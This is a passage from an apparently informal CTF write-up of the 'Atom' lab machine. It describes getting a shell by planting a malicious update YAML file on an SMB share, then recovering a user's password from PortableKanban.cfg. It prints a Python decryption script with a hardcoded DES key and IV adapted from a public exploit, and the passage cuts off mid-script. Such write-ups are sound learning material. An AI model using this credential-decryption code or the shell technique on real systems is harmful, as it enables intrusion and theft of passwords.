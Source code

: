 Okay, _NOW_ we're all the way set up. We should have our payload, YAML file, `msfconsole` session, and Python server all ready to rock. All we have to do now is re-connect to the SMB server and drop `latest.yml` into one of the `client_1` folders and then _wait_. And _wait, and wait_. Eventually the server connects to us and drops us a shell as `jason`. Woo!

![Elmo with fire.](/assets/images/atom/fire.gif)

## >> NOTHING PERSONNEL, KID

So we have a user shell, time to get them privs up! I spent _far_ too long looking around in `C:>` for some smoking gun in website configs and other miscellaneous privilege escalation techniques. If you take time and actually poke around in `jason`'s directories, you'll find something strange in `C:\Users\jason\Downloads\>` - it looks like a download of the `Portable Kanban` software. Checking the ~~ancient hacking tomes~~ Google-nator, we find [an exploit for Portable Kanban](https://www.exploit-db.com/exploits/49409). Unfortunately for us, there's only a `pk3.lock` file sitting around so we can't directly use this. If we keep going though, we find something that looks like an encrypted password hanging out in `PortableKanban.cfg`...

![Finding an encrypted password in the PortableKanban.cfg file.](/assets/images/atom/jason_enc_password.png)

With the PK exploit fresh in mind and an encrypted password in hand, I did what any moron would do - [I banged two rocks together](https://www.youtube.com/watch?v=zQGX3J6DAGw)! Or I did the computer equivalent of it, rather - I modified the PK3 retrieval exploit to take an arbitrary file as input rather than a PK3. I figured that there's very little to lose and if it doesn't work, I just go back to the drawing board. Here's what my final `my_decrypt.py` ended up looking like:

```python3
#!/usr/bin/env python3

import json
import base64
from des import * #python3 -m pip install des
import sys

try:
        path = sys.argv[1]
except:
        exit("Supply path to PortableKanban.pk3 as argv1")

def decode(hash):
        hash = base64.b64decode(hash.encode('utf-8'))
        key = DesKey(b"7ly6UznJ")
        return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

def main():
        with open(path) as f:
                print("{}".format(decode(f.readline())))

if __name__ == "__main__":
```